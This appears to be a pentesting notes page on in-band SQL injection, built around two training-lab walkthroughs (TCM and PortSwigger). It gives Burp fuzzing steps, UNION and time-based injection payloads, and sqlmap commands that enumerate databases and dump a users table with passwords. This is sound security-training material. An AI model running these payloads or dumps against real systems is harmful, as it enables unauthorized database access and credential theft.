

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# In Band


**In-Band SQLi** occurs when an attacker uses the same communication channel to both send the malicious SQL query and receive the results. This typically involves inserting malicious SQL code into input fields of a web application, which is then executed by the database server, allowing the attacker to retrieve data directly through the application's response.


## Basic Workflow

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The web application that we need to test has a `search` field associated with the `username` parameter (Figure 1).

<figure><figcaption><p>Figure 1: Using the application as intented.</p></figcaption></figure>

By fuzzing the `username` parameter using Burp Intruder's built-in SQLi wordlist, we can see that the results of a successful payload are returned within the HTTP response (Figure 2), which makes this an In Band SQLi.

<figure><figcaption><p>Figure 2: Fuzzing the <code>username</code> parameter with built-in SQLi payloads.</p></figcaption></figure>

Since the SQLi vulnerability is confirmed, we can write the request to a file (_right-click_ > _Copy to file_) and continue testing using [`sqlmap`](../../../../tools/web/sqlmap.md).




```bash
$ sqlmap -r post_request.txt --batch
<SNIP>
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=jeremy' AND (SELECT 6462 FROM (SELECT(SLEEP(5)))zkFr) AND 'GiCb'='GiCb

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=jeremy' UNION ALL SELECT NULL,NULL,CONCAT(0x7162766271,0x534a50534a684c7153486868667a4656547777534b5257724a66486c4a506858526c6c6a51467a6d,0x71716b6a71)-- -
---
[11:57:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
```




```bash
# enumerating the current database
$ sqlmap -r post_request.txt --batch --current-db
<SNIP>
[12:04:04] [INFO] fetching current database
current database: 'bb-labs'
```



```bash
$ sqlmap -r post_request.txt --batch -D bb-labs --tables
<SNIP>

[12:07:28] [INFO] fetching tables for database: 'bb-labs'
Database: bb-labs
[14 tables]
+------------------------+
| api0x01                |
| auth0x02               |
| auth0x03               |
| c0x03                  |
| csrf0x01               |
| csrf0x02               |
| idor0x01               |
| injection0x01          |
| injection0x02          |
| injection0x03_products |
| injection0x03_users    |
| injection0x04          |
| xss0x02                |
| xss0x03                |
+------------------------+
```




```bash
$ sqlmap -r post_request.txt --batch -D bb-labs -T injection0x01 --dump
<SNIP>

[12:09:12] [INFO] fetching columns for table 'injection0x01' in database 'bb-labs'
[12:09:12] [INFO] fetching entries for table 'injection0x01' in database 'bb-labs'
Database: bb-labs
Table: injection0x01
[3 entries]
+---------------------+------------------+----------+
| email               | password         | username |
+---------------------+------------------+----------+
| jeremy@example.com  | jeremyspassword  | jeremy   |
| jessamy@example.com | jessamyspassword | jessamy  |
| bob@example.com     | bobspassword     | bob      |
+---------------------+------------------+----------+
```




## UNION attack

> _The example below is based on PostSwigger's_ [_SQL injection UNION attack, retrieving data from other tables_](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables) _lab._

We can start testing for SQLi flaws by fuzzing the request's parameters with common SQLi payloads (Figure 3).

<figure><figcaption><p>Figure 3: Fuzzing for SQLi flaws.</p></figcaption></figure>

Intruder's results indicate that the `category`parameter is vulnerable to SQLi, so the next step is to manually confirm that we can affect the response's behaviour (Figure 4).

<figure><figcaption><p>Figure 4: Validating the SQLi vulnerability.</p></figcaption></figure>

Now we have discovered and validated the SQLi flaw, we can use automated tools, such as [SQLMap](../../../../tools/web/sqlmap.md), for data exfiltration (Figure 5).


```bash
sqlmap.py -u "https://0a7d006003157b9a803eda4300a600fd.web-security-academy.net/filter?category=Pets" --batch -v 0 -T users --dump
```


<figure><figcaption><p>Figure 5: Using <code>sqlmap</code> to exfiltrate data from the <code>users</code> table.</p></figcaption></figure>
